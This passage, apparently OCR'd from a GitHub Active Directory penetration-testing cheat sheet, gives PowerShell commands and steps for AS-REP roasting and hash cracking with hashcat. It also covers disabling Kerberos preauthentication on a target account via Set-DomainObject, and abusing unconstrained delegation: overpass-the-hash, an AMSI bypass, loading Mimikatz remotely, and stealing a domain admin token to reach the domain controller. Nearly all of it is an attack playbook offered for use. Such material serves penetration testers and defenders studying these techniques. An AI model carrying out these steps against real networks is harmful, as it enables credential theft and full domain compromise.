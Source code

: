     ```powershell
    . .\ASREPRoast.ps1
    Get-ASREPHash -UserName vpn379user
    
    ```
    
- Crack the hash using Hashcat
    
    ```powershell
    hashcat.exe -a 0 -m 18200 asrep-roast.txt 500-worst-passwords.txt
    
    ```
    

**Targeted ASREP-Roasting**

- Determine if the current user has permission to set User Account Control flag for another user
    
    ```powershell
    Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReference -like 'S-1-5-21-37422221-831111-1111111-1*'}
    Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match 'User01'}
    
    ```
    
- Set the UserAccountControl bit to disable kerberos preauth for given account
    
    ```powershell
    Set-DomainObject -Identity User01 -XOR @{useraccountcontrol=4194304}
    
    ```
    

# Delegation

**Unconstrained Delegation**

1. For an example we have machine pwn1 as an Unconstrained user; We are pwn0 and we got foot-hold/credentials/hashes for machine pwn2 who has local admin access for machine pwn1; Hence we can perform this attack
2. Get a Powershell session as a different user using "Over pass the hash" attack if required(in this case its pwn2/appadmin)
3. We can try searching for local admins it has access to using Find-LocalAdminAccess -Verbose
4. Create a New-PSSession attaching to the "Unconstrained user"
5. Enter the new session using Enter-PSSession
6. Bypass the AMSI
7. EXIT
8. Load Mimikatz.ps1 on the new session using Invoke-command
9. Enter the new session using Enter-PSSession again
10. Now we can get the admin token and save it to the disk
11. Try and check if you have any file from a DA
12. If not we can try to pull if there is any sessions logged on as Administrator as pwn0 using Invoke-Hunter then run the attack again
13. Once we get an DA token we can Reuse the token using Invoke-Mimikatz
14. Now we can access any service on the DC; Example ls \\dc-corp\C$ or use WMI-Commands / ScriptBlock
